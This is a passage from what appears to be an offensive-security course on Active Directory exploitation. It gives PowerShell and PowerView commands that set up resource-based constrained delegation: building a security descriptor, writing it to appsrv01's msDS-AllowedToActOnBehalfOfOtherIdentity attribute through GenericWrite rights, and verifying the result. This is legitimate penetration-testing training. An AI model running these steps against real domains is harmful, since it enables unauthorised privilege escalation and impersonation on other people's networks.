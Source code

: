 To do this, we must first create a new security descriptor with the correct SID. In the beginning of this module, we determined that the SID is the last portion of a security descriptor string so we can reuse a working string, replacing only the SID.

Fortunately, security researchers have discovered a valid security descriptor string that we can use as shown in Listing 37. We can use the _RawSecurityDescriptor_[6](https://portal.offsec.com/courses/pen-300-9502/learning/active-directory-exploitation-14684/active-directory-exploitation-14915#fn-local_id_638-6) class to instantiate a _SecurityDescriptor_ object:

```
PS C:\tools> $sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid

PS C:\tools> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
```

> Listing 37 - Creating a new SecurityDescriptor

With the _SecurityDescriptor_ object created, we must convert it into a byte array to match the format for the _msDS-AllowedToActOnBehalfOfOtherIdentity_ property:

```
PS C:\tools> $SDbytes = New-Object byte[] ($SD.BinaryLength)

PS C:\tools> $SD.GetBinaryForm($SDbytes,0)
```

> Listing 38 - Converting the SecurityDescriptor to a byte array

After the _SecurityDescriptor_ has been converted to a byte array, we can use Get-DomainComputer to obtain a handle to the computer object for appsrv01 and then pipe that into Set-DomainObject, which can update properties by specifying them with -Set options:

```
PS C:\tools> Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

> Listing 39 - Setting msds-allowedtoactonbehalfofotheridentity

Remember that it is not normally possible to set the _msDS-AllowedToActOnBehalfOfOtherIdentity_ property for an arbitrary computer account. However, since our _dave_ user has the GenericWrite access right to appsrv01, we can set this property.



We can also use this attack vector with GenericAll, WriteProperty, or WriteDACL access rights to appsrv01.

After writing the _SecurityDescriptor_ to the property field, we should verify it. We can do this by reading the binary version of it with Get-DomainComputer, then instantiating a _SecurityDescriptor_ object with _RawSecurityDescriptor_ and finally, displaying the DACL:

```
PS C:\tools> $RBCDbytes = Get-DomainComputer appsrv01 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity

PS C:\tools> $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0

PS C:\tools> $Descriptor.DiscretionaryAcl

BinaryLength       : 36
AceQualifier       : AccessAllowed
IsCallback         : False
OpaqueLength       : 0
AccessMask         : 983551
SecurityIdentifier : S-1-5-21-3776646582-2086779273-4091361643-2101
AceType            : AccessAllowed
AceFlags           : None
IsInherited        : False
```
